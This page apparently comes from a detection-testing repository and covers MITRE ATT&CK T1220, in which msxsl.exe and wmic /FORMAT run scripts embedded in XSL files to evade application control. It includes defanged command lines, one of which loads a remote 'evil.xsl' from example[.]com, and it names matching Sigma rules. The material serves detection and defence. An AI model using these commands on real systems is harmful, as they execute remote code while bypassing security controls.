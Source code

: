 
[back](../index.md)

Find sigma rule :heavy_check_mark: 

# Attack: XSL Script Processing 

Adversaries may bypass application control and obscure execution of code by embedding scripts inside XSL files. Extensible Stylesheet Language (XSL) files are commonly used to describe the processing and rendering of data within XML files. To support complex operations, the XSL standard includes support for embedded scripting in various languages. (Citation: Microsoft XSLT Script Mar 2017)

Adversaries may abuse this functionality to execute arbitrary files while potentially bypassing application control. Similar to [Trusted Developer Utilities Proxy Execution](https://attack.mitre.org/techniques/T1127), the Microsoft common line transformation utility binary (msxsl.exe) (Citation: Microsoft msxsl.exe) can be installed and used to execute malicious JavaScript embedded within local or remote (URL referenced) XSL files. (Citation: Penetration Testing Lab MSXSL July 2017) Since msxsl.exe is not installed by default, an adversary will likely need to package it with dropped files. (Citation: Reaqta MSXSL Spearphishing MAR 2018) Msxsl.exe takes two main arguments, an XML source file and an XSL stylesheet. Since the XSL file is valid XML, the adversary may call the same XSL file twice. When using msxsl.exe adversaries may also give the XML/XSL files an arbitrary file extension.(Citation: XSL Bypass Mar 2019)

Command-line examples:(Citation: Penetration Testing Lab MSXSL July 2017)(Citation: XSL Bypass Mar 2019)

* <code>msxsl.exe customers[.]xml script[.]xsl</code>
* <code>msxsl.exe script[.]xsl script[.]xsl</code>
* <code>msxsl.exe script[.]jpeg script[.]jpeg</code>

Another variation of this technique, dubbed “Squiblytwo”, involves using [Windows Management Instrumentation](https://attack.mitre.org/techniques/T1047) to invoke JScript or VBScript within an XSL file.(Citation: LOLBAS Wmic) This technique can also execute local/remote scripts and, similar to its [Regsvr32](https://attack.mitre.org/techniques/T1218/010)/ "Squiblydoo" counterpart, leverages a trusted, built-in Windows tool. Adversaries may abuse any alias in [Windows Management Instrumentation](https://attack.mitre.org/techniques/T1047) provided they utilize the /FORMAT switch.(Citation: XSL Bypass Mar 2019)

Command-line examples:(Citation: XSL Bypass Mar 2019)(Citation: LOLBAS Wmic)

* Local File: <code>wmic process list /FORMAT:evil[.]xsl</code>
* Remote File: <code>wmic os get /FORMAT:”https[:]//example[.]com/evil[.]xsl”</code>

# MITRE
## Tactic
  - defense-evasion


## technique
  - T1220


# Test : MSXSL Bypass using local files
## OS
  - windows


## Description:
Executes the code specified within a XSL script tag during XSL transformation using a local payload. 
Requires download of MSXSL. No longer available from Microsoft.
(Available via Internet Archive https://web.archive.org/web/20200825011623/https://www.microsoft.com/en-us/download/details.aspx?id=21714 ) 
Open Calculator.exe when test successfully executed, while AV turned off.


## Executor
command_prompt

# Sigma Rule
 - proc_creation_win_xsl_script_processing.yml (id: 05c36dd6-79d6-4a9a-97da-3db20298ab2d)

 - registry_set_persistence_ie.yml (id: d88d0ab2-e696-4d40-a2ed-9790064e66b3)



[back](../index.md)

